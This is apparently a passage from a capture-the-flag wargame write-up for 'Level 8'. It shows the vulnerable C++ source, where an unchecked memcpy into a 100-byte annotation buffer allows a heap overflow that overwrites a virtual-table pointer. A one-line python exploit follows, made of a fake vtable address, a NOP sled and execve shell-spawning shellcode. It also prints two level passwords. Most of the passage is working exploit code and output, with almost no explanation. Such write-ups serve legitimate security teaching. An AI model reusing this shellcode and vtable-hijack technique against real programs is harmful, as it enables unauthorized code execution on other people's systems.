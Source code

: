 ```
$ cat /home/level8/.pass
VSIhoeMkikH6SGht
```

# 8. Level 8

```
$ cat /levels/level08.cpp
```

```cpp
#include <iostream>
#include <cstring>
#include <unistd.h>

class Number
{
    public:
        Number(int x) : number(x) {}
        void setAnnotation(char *a) {memcpy(annotation, a, strlen(a));}
        virtual int operator+(Number &r) {return number + r.number;}
    private:
        char annotation[100];
        int number;
};


int main(int argc, char **argv)
{
    if(argc < 2) _exit(1);

    Number *x = new Number(5);
    Number *y = new Number(6);
    Number &five = *x, &six = *y;

    five.setAnnotation(argv[1]);

    return six + five;
}
```

```
$ /levels/level08 `python -c 'print "\x28\xa0\x04\x08"+"\x90"*78+"\x31\xc0\x99\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xcd\x80"+"\x0c\xa0\x04\x08"'`
```

```
$ cat /home/level9/.pass
ise9uHhjOhZd0K4G
```

# 9. Level 9
